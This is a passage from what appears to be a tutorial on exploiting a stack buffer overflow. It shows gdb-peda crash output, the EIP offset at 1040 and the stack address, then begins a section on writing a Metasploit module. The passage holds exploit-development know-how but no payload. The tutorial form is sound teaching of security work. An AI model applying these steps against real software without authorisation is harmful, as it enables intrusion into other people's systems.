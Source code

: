 ```
Program received signal SIGSEGV, Segmentation fault.

Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x6e41736e in ?? ()

gdb-peda$ pattern_search
Registers contain pattern buffer:
EBP+0 found at offset: 1036
EIP+0 found at offset: 1040
Registers point to pattern buffer:
[ESP] --> offset 1044 - size ~156
Pattern buffer found at:
0xf7fd8000 : offset 1006 - size   18 (mapped)
0xf7fd8015 : offset    3 - size 1003 (mapped)
0xffffcbcc : offset    0 - size 1024 ($sp + -0x414 [-261 dwords])
0xffffcfd0 : offset 1028 - size  172 ($sp + -0x10 [-4 dwords])
References to pattern buffer found at:
0xf7fb0ac4 : 0xf7fd8000 (/lib/i386-linux-gnu/libc-2.19.so)
0xf7fb0ac8 : 0xf7fd8000 (/lib/i386-linux-gnu/libc-2.19.so)
0xf7fb0acc : 0xf7fd8000 (/lib/i386-linux-gnu/libc-2.19.so)
0xf7fb0ad0 : 0xf7fd8000 (/lib/i386-linux-gnu/libc-2.19.so)
0xf7fb0ad4 : 0xf7fd8000 (/lib/i386-linux-gnu/libc-2.19.so)
0xf7fb0ad8 : 0xf7fd8000 (/lib/i386-linux-gnu/libc-2.19.so)
0xf7fb0adc : 0xf7fd8000 (/lib/i386-linux-gnu/libc-2.19.so)
0xffffc554 : 0xf7fd8000 ($sp + -0xa8c [-675 dwords])
0xffffc5a0 : 0xf7fd8000 ($sp + -0xa40 [-656 dwords])
0xffffc5b4 : 0xf7fd8000 ($sp + -0xa2c [-651 dwords])
0xffffc5c8 : 0xf7fd8000 ($sp + -0xa18 [-646 dwords])
0xffffc5d4 : 0xf7fd8000 ($sp + -0xa0c [-643 dwords])
0xffffc614 : 0xf7fd8000 ($sp + -0x9cc [-627 dwords])
0xffffc710 : 0xffffcbcc ($sp + -0x8d0 [-564 dwords])
0xffffcba0 : 0xffffcbcc ($sp + -0x440 [-272 dwords])
0xffffcbb4 : 0xffffcbcc ($sp + -0x42c [-267 dwords])

gdb-peda$ print $esp
$1 = (void *) 0xffffcfe0
```

Using `pattern_search`, we now know that EIP will be overwriten by 4 bytes starting from 1040th character
in the body. This means that including the 4-byte header, the RET address needs to start from 1044th character. 
We also know that the address of the top of the stack is `0xffffcfe0`, from which our payload will
be written and executed. Now, we know everything for the exploit!

### Writing a Metasploit exploit module

Writing an exploit module for Metasploit Framework is quite simple, but you need to first set up the development environment.
Although I will not elaborate on this, you can refer to [this page](https://github.com/rapid7/metasploit-framework/wiki/Setting-Up-a-Metasploit-Development-Environment), which has a perfect instruction!
